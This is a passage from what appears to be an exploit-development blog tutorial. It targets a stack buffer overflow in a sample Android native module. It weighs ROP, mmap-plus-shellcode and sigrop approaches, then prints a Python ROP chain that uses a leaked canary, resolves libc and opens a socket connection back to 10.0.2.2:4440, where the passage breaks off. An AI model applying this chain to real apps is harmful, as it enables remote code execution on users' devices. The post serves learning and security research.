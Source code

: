 Lets briefly think about how to approach the holy grail, i.e. *arbitrary code execution*. At first glance, a few options come to mind (consider the fact that e.g. `libart.so` is compiled with *RELRO* etc.):
1. ROP - chain that contains **all** the "code" (via gadgets) to execute. This (almost irreversibly) destroys the stack and you cannot expect that the app will recover from that.
2. smaller ROP - chain that writes some qwords into global memory (e.g. `.data@libart.so` or `.bss@libart.so`) and then restores the stack.
3. smaller ROP - chain that allocates writable and executable memory via e.g. `mmap`, writes the pointer returned in `rax` into global memory (thus only 8 bytes of global memory are invalidated). Then proceed as in 2. just with the new memory to write shellcode. Finally return into the shellcode.
4. [sigrop](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming), but there is no reason to use this.

For this blog post, we will only consider the first option, i.e. destroying the stack (don't worry the other ones will be covered in later posts ;D).

The naming convention for gadgets is like this: `gadget_opcode_operand1_operand2_opcode_operand1...`. So you need to be able to identify opcodes on Intel (the emulator runs on x86_64) to understand the ROP - chain. The following is an example of a ROP - chain connecting to `10.0.2.2:4440`, where `10.0.2.2` is [an alias to your loopback interface](https://developer.android.com/studio/run/emulator-networking.html):
```python
# Setup payload
payload = b'a' * 0x20
payload += leak[0] # <-- unknown address
payload += canary
payload += leak[2] # <-- probably old rbp

# Dynamically compute libc address via toupper@.got in libStackBufferOverflowModule.so
# and store it into writable_memory
payload = compute_libc_base(payload, writable_memory)
payload = call_libc_function(
    payload,
    writable_memory,
    'socket',
    [
        p64(0x2),
        p64(0x1),
        p64(0x0)
    ]
)

# Store socket in memory
payload += gadget_pop_rdi
payload += p64(u64(writable_memory) + 0x8)
payload += gadget_mov_deref_rdi_rax

# Construct sockaddr_in
payload += gadget_pop_rdi
payload += p64(u64(writable_memory) + 0x10)
payload += gadget_pop_rax
payload += b'\x02\x00' + b'\x11\x58' + b'\x0a\x00\x02\x02'
payload += gadget_mov_deref_rdi_rax

payload += gadget_pop_rdi
payload += p64(u64(writable_memory) + 0x18)
payload += gadget_pop_rax
payload += b'\x00' * 0x8
payload += gadget_mov_deref_rdi_rax

# Connect to 10.0.2.2:4440
# rdx = size
payload += gadget_pop_rdx
payload += b'\x10' + b'\x00' * 0x7

```